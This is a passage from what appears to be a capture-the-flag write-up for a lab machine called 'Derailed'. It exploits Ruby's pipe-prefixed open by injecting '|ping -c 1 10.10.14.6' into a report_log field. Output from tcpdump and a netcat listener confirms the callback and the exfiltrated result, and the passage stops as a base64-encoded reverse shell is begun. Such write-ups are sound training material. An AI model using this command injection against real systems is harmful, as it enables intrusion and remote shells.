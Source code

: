 > If `path` starts with a pipe character (`"|"`), a subprocess is
> created, connected to the caller by a pair of pipes. The returned
> [IO](https://ruby-doc.org/core-2.1.0/IO.md) object may be used to
> write to the standard input and read from the standard output of this
> subprocess.

#### POC

I'll start with a simple `ping` by updating
`report_log=|ping -c 1 10.10.14.6`. I'll listen with `tcpdump`, and nn
triggering this, there are ICMP packets:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    23:14:02.388656 IP 10.10.11.190 > 10.10.14.6: ICMP echo request, id 42664, seq 1, length 64
    23:14:02.388688 IP 10.10.14.6 > 10.10.11.190: ICMP echo reply, id 42664, seq 1, length 64



In fact, because the result is POSTed to me, I can see them at `nc`:



    oxdf@hacky$ nc -lvnp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.190 40358
    POST / HTTP/1.1
    Host: 10.10.14.6:9001
    Connection: keep-alive
    Content-Length: 257
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: http://derailed.htb:3000
    Referer: http://derailed.htb:3000/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US

    PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
    64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=93.8 ms

    --- 10.10.14.6 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 93.828/93.828/93.828/0.000 ms



#### Shell

To limit special characters in the payload, I'll create a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) and base64 encode
it:


